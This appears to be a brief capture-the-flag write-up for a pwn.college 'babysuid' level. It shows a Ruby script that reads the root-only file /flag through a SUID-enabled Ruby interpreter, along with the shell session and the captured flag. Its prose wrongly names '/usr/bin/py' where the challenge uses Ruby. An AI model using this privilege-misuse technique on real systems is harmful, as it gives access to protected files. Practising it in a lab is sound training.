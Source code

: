 
https://ruby-lang.org/en/documentation/quickstart/

`ruby` is a dynamic, high-level programming language known for its simplicity, productivity and readability. It was created by `Yukihiro Matsumoto(Matz)` in the mid `1990s`.

`SUID` bit has been set for the `/usr/bin/py`. Let's write a `ruby` program that's read a file.

```ruby
 file_path = '/flag'

 begin
	 File.open(file_path, 'r') do |file|
		 file.each_line do |line|
			puts line
		 end
	 end
  end
```

```shell
hacker@program-misuse-level-43:~$ /challenge/babysuid_level43 
Welcome to /challenge/babysuid_level43!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/ruby.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level43) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ruby!
hacker@program-misuse-level-43:~$ touch test.rb
hacker@program-misuse-level-43:~$ ls -l
total 16
drwxr-xr-x 2 hacker hacker 4096 Dec 30 07:37 Desktop
drwxr-xr-x 2 hacker hacker 4096 Jan  2 18:00 demo
-rw-r--r-- 1 hacker hacker  104 Jan  3 13:49 test.pl
-rw-r--r-- 1 hacker hacker   67 Jan  3 14:05 test.py
-rw-r--r-- 1 hacker hacker    0 Jan  3 14:12 test.rb
hacker@program-misuse-level-43:~$ nano test.rb
hacker@program-misuse-level-43:~$ ruby test.rb
pwn.college{o4UM4OIInCgO2GPdEyujOIY-3L5.0VN4EDL0AjNzQzW}
```

